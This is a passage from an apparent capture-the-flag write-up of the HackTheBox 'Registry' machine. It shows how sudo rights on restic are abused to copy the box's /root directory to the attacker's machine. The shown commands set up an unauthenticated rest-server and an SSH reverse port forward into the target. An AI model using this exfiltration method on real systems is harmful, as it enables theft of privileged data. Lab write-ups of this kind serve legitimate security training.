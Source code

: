 We already know, we can run ``restic`` as root in ``www-data`` without password.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-registry/24.png)

I checked the manual.
>https://restic.readthedocs.io/en/latest/manual_rest.html

It looks like we can run server in our machine and take backup of ``/root`` directory of the box.

### First Step: Create Restic Repo and Run on your local rest-server

```
sudo restic init --repo /tmp/restic
enter password for new repository: 
enter password again: 
created restic repository 41f82a77b4 at /tmp/restic


Please note that knowledge of your password is required to access
the repository. Losing your password means that your data is
irrecoverably lost.

password: 123

----------------------------------------------------

rest-server --no-auth --listen 0.0.0.0:8001
Data directory: /tmp/restic
Authentication disabled
Private repositories disabled
Starting server on 0.0.0.0:8001
....(Running Live)

-----------------------------------------------------
```

### Second Step: SSH Portfoward

```
ssh -R 8001:127.0.0.1:8001 -i id_rsa bolt@registry.htb 
Enter passphrase for key 'id_rsa': 


Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-65-generic x86_64)

  System information as of Sun Jan  5 16:03:28 UTC 2020

  System load:  0.04              Users logged in:                0
  Usage of /:   5.6% of 61.80GB   IP address for eth0:            10.10.10.159
  Memory usage: 25%               IP address for br-1bad9bd75d17: 172.18.0.1
  Swap usage:   0%                IP address for docker0:         172.17.0.1
  Processes:    155
Last login: Sun Jan  5 16:02:51 2020 from 10.10.16.82
bolt@bolt:~$

------------------------------------------------------
```
``-R`` to Remote port forward, this will redirecting all connections from one port to another remote. 
